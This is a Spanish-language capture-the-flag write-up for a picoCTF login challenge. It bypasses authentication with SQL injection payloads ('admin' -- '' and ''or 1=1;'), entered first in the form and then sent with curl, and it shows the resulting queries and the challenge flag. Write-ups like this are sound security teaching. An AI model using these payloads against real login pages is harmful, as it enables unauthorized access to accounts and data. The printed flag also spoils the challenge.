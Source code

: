 There is a website running at `https://jupiter.challenges.picoctf.org/problem/50009/` ([link](https://jupiter.challenges.picoctf.org/problem/50009/)) or http://jupiter.challenges.picoctf.org:50009. Do you think you can log us in? Try to see if you can login!

Hints:
1. There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?
2. Try to think about how the website verifies your login.

## Solución 1:
Realizando una inyección SQL en la misma pagina:
```
Se insertan los siguientes datos en los campos: 
username: admin' -- '
password: hola
SQL query: SELECT * FROM users WHERE name='admin' -- '' AND password='hola'

# Logged in!

Your flag is: picoCTF{s0m3_SQL_fb3fe2ad}
Esto ocasiona que la validación de la contraseña se anule y solo verifique si hay un usaurio admin

O también se puede hacer con otro tipo de consulta que forzosamente hace que la validación sea True:
username: hola' or 1=1;
password: hola
SQL query: SELECT * FROM users WHERE name='hola' or 1=1;' AND password='hola'

# Logged in!

Your flag is: picoCTF{s0m3_SQL_fb3fe2ad}
```

## Solución 2:
Mediante la herramienta curl hacemos la inyección ingresando los datos:

```
┌──(kali㉿kali)-[~]
└─$ curl https://jupiter.challenges.picoctf.org/problem/50009/login.php -d "username=admin'--'&password=hola&debug=1"
<pre>username: admin'--'
password: hola
SQL query: SELECT * FROM users WHERE name='admin'--'' AND password='hola'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{s0m3_SQL_fb3fe2ad}</p>    

┌──(kali㉿kali)-[~]
└─$ curl https://jupiter.challenges.picoctf.org/problem/50009/login.php -d "username=hola' or 1=1;&password=hola&debug=1"
<pre>username: hola' or 1=1;
password: hola
SQL query: SELECT * FROM users WHERE name='hola' or 1=1;' AND password='hola'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{s0m3_SQL_fb3fe2ad}</p>
```